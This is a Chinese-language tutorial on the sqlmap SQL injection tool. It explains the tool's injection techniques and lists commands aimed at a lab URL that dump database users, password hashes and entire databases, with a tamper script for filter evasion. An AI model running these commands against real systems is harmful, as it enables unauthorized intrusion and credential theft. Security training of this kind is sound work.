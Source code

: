 # Sqlmap

**sqlmap**是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL进行SQL注入。目前支持的数据库有MySql、Oracle、Access、PostageSQL、SQL Server、IBM DB2、SQLite、Firebird、Sybase和SAP MaxDB等

Sqlmap采用了以下5种独特的SQL注入技术

- 基于布尔类型的盲注，即可以根据返回页面判断条件真假的注入
- 基于时间的盲注，即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已经执行(即页面返回时间是否增加)来判断
- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
- 联合查询注入，在可以使用Union的情况下注入
- 堆查询注入，可以同时执行多条语句时的注入

Sqlmap的强大的功能包括 数据库指纹识别、数据库枚举、数据提取、访问目标文件系统，并在获取完全的操作权限时执行任意命令。

sqlmap是一个跨平台的工具，很好用，是SQL注入方面一个强大的工具！

我们可以使用 -h 参数查看sqlmap的参数以及用法，**sqlmap -h**

[![img](https://p1.ssl.qhimg.com/t01bdaeb5865a613177.png)](https://p1.ssl.qhimg.com/t01bdaeb5865a613177.png)

sqlmap默认的User-Agent：sqlmap/1.1.9.22#dev ([http://sqlmap.org](http://sqlmap.org/))

[![img](https://p0.ssl.qhimg.com/t0125c050b4a36f54c6.png)](https://p0.ssl.qhimg.com/t0125c050b4a36f54c6.png)

 

## Sqlmap的简单用法

```python
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
```